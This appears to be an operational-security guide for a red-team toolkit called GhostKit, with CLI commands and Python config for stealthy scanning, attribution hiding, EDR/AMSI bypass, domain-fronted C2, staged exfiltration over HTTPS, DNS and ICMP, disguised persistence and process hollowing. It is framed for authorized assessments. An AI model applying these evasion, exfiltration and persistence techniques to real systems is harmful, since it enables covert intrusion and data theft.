


# Operational Security Guide


> "The quieter you become, the more you can hear" — GhostKit OpSec Philosophy

## Introduction

This guide covers operational security (OpSec) considerations when deploying GhostKit in various security assessment scenarios. Following these practices helps maintain stealth, reduce attribution risk, and ensure the integrity of your assessment activities.

⚠️ **IMPORTANT**: GhostKit is designed for authorized security assessments only. Unauthorized use against systems without explicit permission is illegal and unethical.

## Pre-Engagement Considerations

### 1. Authorization & Scope

Before deploying GhostKit:

- Obtain **written authorization** with clearly defined scope boundaries
- Establish **Rules of Engagement** (ROE) with emergency contact procedures
- Define **acceptable timeframes** for testing activities
- Clarify **excluded systems/networks** from the assessment scope
- Implement **safe-word protocols** for immediate test cessation

### 2. Infrastructure Preparation



#### Infrastructure Checklist

- [ ] Use dedicated hardware/VMs for each assessment
- [ ] Deploy through multiple anonymizing layers (proxies/VPNs)
- [ ] Ensure time synchronization across infrastructure
- [ ] Validate infrastructure with non-target tests first
- [ ] Deploy only necessary tools and modules

## Execution Phase

### 1. Low-Observable Reconnaissance

| Technique | Implementation | GhostKit Module |
|-----------|----------------|----------------|
| Slow-rate scanning | `--delay-random 5-30 --max-rate 1` | `network_scanner` |
| Distributed probing | `--distributed --nodes 5` | `distributed_recon` |
| Passive fingerprinting | `--passive-only` | `passive_enum` |
| Traffic shaping | `--packet-manipulation --blend-profile enterprise` | `traffic_shaper` |
| Decoy generation | `--decoy --count 3 --similarity 0.8` | `decoy_ops` |

**Example: Low-Observable Network Scan**

```bash
python ghostkit.py -m network_scanner --slow-and-low \
  --max-rate 1 --delay-random 10-45 \
  --random-order --avoid-patterns \
  --blend-profile "enterprise-client" \
  -t 192.168.1.0/24
```

### 2. Attribution Reduction

```python
# Example attribution reduction configuration
attribution_config = {
    "system": {
        "hostname_obfuscation": True,
        "mac_address_spoofing": True,
        "timezone_randomization": True
    },
    "network": {
        "dns_providers": ["1.1.1.1", "9.9.9.9"],
        "connection_pooling": True,
        "ip_rotation_interval": 300
    },
    "application": {
        "user_agent_rotation": True,
        "header_normalization": True,
        "browser_fingerprint_randomization": True
    },
    "operational": {
        "activity_hours": "08:00-17:00",
        "working_days": ["Mon", "Tue", "Wed", "Thu", "Fri"],
        "typing_patterns": "randomized"
    }
}

# Load this config with:
# python ghostkit.py --load-opsec-config attribution_config.json
```

### 3. Digital Footprint Management

**Artifacts to Control:**

1. **Network Indicators**
   - Source IP addresses
   - Connection metadata
   - Protocol fingerprints
   - DNS queries

2. **Host Indicators**
   - Files dropped to disk
   - Registry/configuration changes
   - Log entries
   - Memory artifacts

3. **Tool Indicators**
   - Binary signatures
   - Command-line parameters
   - API call patterns
   - Network traffic patterns

**GhostKit Controls:**

```bash
# Memory-only operation (no disk writes)
python ghostkit.py -m memory_only --fileless-execution

# Self-cleanup on exit
python ghostkit.py --cleanup-on-exit --secure-delete

# Runtime obfuscation
python ghostkit.py --runtime-obfuscation --anti-memory-forensics
```

### 4. Detection Avoidance

**Endpoint Protection Bypass:**

```bash
# Custom binary encoding to avoid signatures
python ghostkit.py --build-payload --encoder polymorphic --iterations 3 --output staged_payload.bin

# AMSI/EDR bypass techniques
python ghostkit.py -m amsi_bypass --technique shimcache --persistence minimal
```

**Network Detection Bypass:**

```bash
# IDS/IPS evasion
python ghostkit.py -m packet_manipulator --fragment --ttl-manipulation --checksum-valid

# DPI bypass
python ghostkit.py -m traffic_tunnel --protocol https --domain-fronting --trusted-domains microsoft-cdn.example.com
```

## Communication Security

### 1. Command & Control Hardening

**Multi-tier C2 Architecture:**



**Implementation:**

```bash
# Deploy multi-tier C2 infrastructure
python ghostkit.py -m c2_framework --architecture multi-tier --encryption xchacha20 --nodes 3

# Configure communications
python ghostkit.py -m c2_comms --protocol https --fallback dns,icmp --jitter 30-120
```

### 2. Data Exfiltration Controls

**Staged Exfiltration:**

```python
# GhostKit Python module example
from ghostkit.modules.exfil import DataExfiltration

# Create staged exfiltration job
exfil = DataExfiltration(
    data_source="/tmp/collected_data/",
    chunk_size=150_000,  # 150KB chunks
    encryption="aes-256-gcm",
    compression=True,
    staging_path=":memory:",  # Memory-only staging
    exfil_schedule={
        "working_hours": False,
        "max_bandwidth": "50KB/s",
        "interval": "30-120",  # Random 30-120 second intervals
        "channels": ["https-post", "dns-txt", "icmp-echo"]
    }
)

# Execute with monitoring
exfil.start_job(
    monitor_defender_activity=True,
    auto_throttle=True,
    abort_on_detection=True
)
```

## Incident Response Considerations

### 1. Counter-IR Measures

**What to avoid:**

- Automated anti-forensics that trigger alerts
- Obvious log wiping or tampering
- Killing security processes
- Mass file encryption/deletion

**Acceptable practices:**

- Minimal footprint operations
- Controlled log management
- Selective artifact removal
- Memory-only operations

### 2. Compromise Recovery

```bash
# Emergency cleanup (with approved ROE only)
python ghostkit.py --emergency-cleanup --scope authorized_systems.txt

# Evidence validation for reporting
python ghostkit.py -m evidence_collector --no-modify --chain-of-custody
```

## Assessment-Specific Considerations

### Internal Network Assessments

**VLAN Hopping Prevention:**

```bash
# Safely enumerate VLANs without hopping
python ghostkit.py -m vlan_discovery --passive-only --no-injection
```

**Internal Network Blend-In:**

```bash
# Match traffic patterns to legitimate users
python ghostkit.py --traffic-profile "internal-workstation" --working-hours-only
```

### External Penetration Tests

**Border Device Considerations:**

```bash
# Avoid triggering border IDS/IPS
python ghostkit.py -m perimeter_scan --stealthy --connection-reuse --header-normalize
```

**Cloud Provider Notifications:**

Always notify cloud providers before scanning cloud infrastructure:
- AWS: https://aws.amazon.com/security/penetration-testing/
- Azure: https://docs.microsoft.com/azure/security/fundamentals/pen-testing
- GCP: https://cloud.google.com/security/center/docs/concepts-vulnerabilities-findings#penetration_test

## Red Team Operation Tradecraft

### 1. Long-term Persistence

If authorized by ROE, consider:

```bash
# Deploy minimal-footprint persistence (if authorized)
python ghostkit.py -m persistence --technique scheduled-task --trigger network --disguise windows-update

# Establish out-of-band communication channels
python ghostkit.py -m oob_channel --method dns-over-https --fallback-days 30
```

### 2. Living Off The Land

```bash
# Use native tools only
python ghostkit.py -m lolbas --native-only --avoid-logging

# Fileless execution via legitimate processes
python ghostkit.py -m process_injection --target explorer.exe --technique process-hollowing
```

## Deconfliction Procedures

### 1. Blue Team Coordination

For authorized assessments with blue team awareness:

```bash
# Generate deconfliction tokens
python ghostkit.py --deconfliction-token --valid-for 14d --output blue_team_tokens.txt

# Implement beacon with deconfliction data
python ghostkit.py -m beacon --deconfliction-enabled --token-rotation 6h
```

### 2. Multi-Red Team Deconfliction

When multiple red teams operate simultaneously:

```bash
# Register operations in shared tracker
python ghostkit.py --register-op --timeframe "2025-05-30 to 2025-06-15" --scope subnet-b --team alpha

# Check for conflicts
python ghostkit.py --check-deconfliction --team alpha
```

## After-Action Procedures

### 1. Artifact Cleanup

```bash
# Full cleanup verification
python ghostkit.py --verify-cleanup --scope authorized_systems.txt --deep-check

# Generate cleanup report
python ghostkit.py --cleanup-report --output cleanup_verification.pdf
```

### 2. Operator Tradecraft Review

Post-operation self-assessment questions:

1. Were any tools or techniques detected during the assessment?
2. Did any actions trigger alerts or responses?
3. Were all activities properly authorized and documented?
4. Were all artifacts properly removed or documented?
5. Is there any residual risk to the target environment?

## Advanced Techniques (Authorized Engagements Only)

### 1. Supply Chain Simulation

For advanced scenarios with explicit authorization:

```bash
# Simulate developer environment compromise
python ghostkit.py -m supply_chain --scenario dev-environment --no-actual-implant

# Simulate build server access
python ghostkit.py -m ci_cd_access --simulation --report-only
```

### 2. Social Engineering Integration

When authorized for full-scope assessments:

```bash
# Generate believable pretext materials
python ghostkit.py -m pretext_generator --target-research results.json --output-docs ./pretexts/

# Create tracking infrastructure
python ghostkit.py -m tracking_infra --click-tracking --open-tracking --exfil-simulation
```

## Legal and Ethical Considerations

### 1. Data Handling

**Sensitive Data Protection:**

```bash
# Automatically redact PII/sensitive data
python ghostkit.py --process-data --redact pii,financial,health --hash-identifiers

# Generate sanitized evidence
python ghostkit.py --sanitize-evidence --compliance gdpr,hipaa
```

### 2. Jurisdictional Issues

Always consider:
- Local computer crime laws
- Cross-border testing restrictions
- Industry-specific regulations
- Data protection requirements

## Checklist: Final Verification

Before concluding operations:

- [ ] All activities were within authorized scope
- [ ] All evidence is properly documented and secured
- [ ] All unnecessary artifacts have been properly removed
- [ ] All findings have been validated and documented
- [ ] No production systems were negatively impacted
- [ ] No sensitive data was exfiltrated or exposed
- [ ] All borrowed/elevated credentials were returned/revoked
- [ ] Team has been fully debriefed on activities
- [ ] Report preparation has proper evidence chain-of-custody

## References

- [MITRE ATT&CK Red Team Guidelines](https://attack.mitre.org/)
- [Red Team Ops Security](https://redteam.guide/docs/opsec/)
- [NIST SP 800-115: Technical Guide to Information Security Testing](https://csrc.nist.gov/publications/detail/sp/800-115/final)
- [Cyber Kill Chain for Security Operations](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)

---

*Last updated: May 30, 2025*
